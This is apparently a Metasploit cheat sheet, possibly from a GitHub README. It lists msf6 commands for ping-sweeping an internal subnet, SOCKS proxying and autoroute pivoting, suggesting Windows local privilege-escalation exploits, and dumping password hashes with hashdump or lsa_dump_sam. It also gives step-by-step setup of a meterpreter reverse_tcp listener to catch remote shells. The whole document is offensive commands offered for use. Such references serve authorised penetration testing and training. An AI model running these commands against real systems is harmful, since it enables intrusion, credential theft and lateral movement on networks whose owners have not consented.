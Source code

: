 ## Delete database using advanced options.
```
msf6 db_destroy <user:password@host:port/database>
```
## msf6 - Search for RDP scanner
```
msf6 > search rdp_scanner
```
## msf6 - Use multi-handler exploit
```
msf6 > use exploit/multi/handler
```

## msf6 - Run ping sweep
```
msf6> run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

## msf6 - Use SOCKS proxy module
```
msf6 > use auxiliary/server/socks_proxy
```

## msf6 - List running jobs
```
msf6 auxiliary(server/socks_proxy) > jobs
```

## msf6 - Use autoroute module
```
msf6 > use post/multi/manage/autoroute
```

## msf6 - Windows PriEsc - LocalExploit suggester
```
search local_exploit_suggester
```
## msf6 - Windows PriEsc - Hashdump
```
hashdump
// OR
lsa_dump_sam
```

## msf - setting up a listener the correct way
```
# MSF - Listener
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/(optionalx32 or x64)/meterpreter/reverse_tcp
Important : the architecture should match the one used to generate the meterpreter using msfvenom.
msf exploit(handler) > set LHOST 192.168.0.100
msf exploit(handler) > set LPORT 4444
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```
